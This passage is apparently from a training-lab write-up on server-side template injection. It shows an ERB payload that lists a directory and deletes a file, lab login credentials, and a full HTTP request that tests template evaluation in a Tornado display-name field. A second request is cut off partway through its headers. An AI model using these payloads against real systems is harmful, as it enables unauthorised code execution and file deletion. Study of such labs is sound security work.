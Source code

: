 We can then use `<%=Dir.entries('.')%>` where we will find the morale.txt file and sunsequently use `<%=File.delete('./morale.txt')%> ` to delete the file.


## Lab: Basic server-side template injection (code context)

This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter 

When changing the display name with the below request you can see the evaluation of the statement when posting a comment in the display name section.

```
POST /my-account/change-blog-post-author-display HTTP/1.1
Host: 0adf008304603373c1309f1f00ce001b.web-security-academy.net
Cookie: session=4ji1BtG9OeNWubNnZ34JBOO9oXmy8DIo
Content-Length: 70
Cache-Control: max-age=0
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0adf008304603373c1309f1f00ce001b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0adf008304603373c1309f1f00ce001b.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

blog-post-author-display={{7*7}}&csrf=qF7fI6Vp3Bfc028pB23XCuXr5pG3F3i1


```

You can use the following request to remove the file however you first need to close off the origional tags:

```

POST /my-account/change-blog-post-author-display HTTP/1.1
Host: 0adf008304603373c1309f1f00ce001b.web-security-academy.net
Cookie: session=4ji1BtG9OeNWubNnZ34JBOO9oXmy8DIo
Content-Length: 78
Cache-Control: max-age=0
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0adf008304603373c1309f1f00ce001b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
```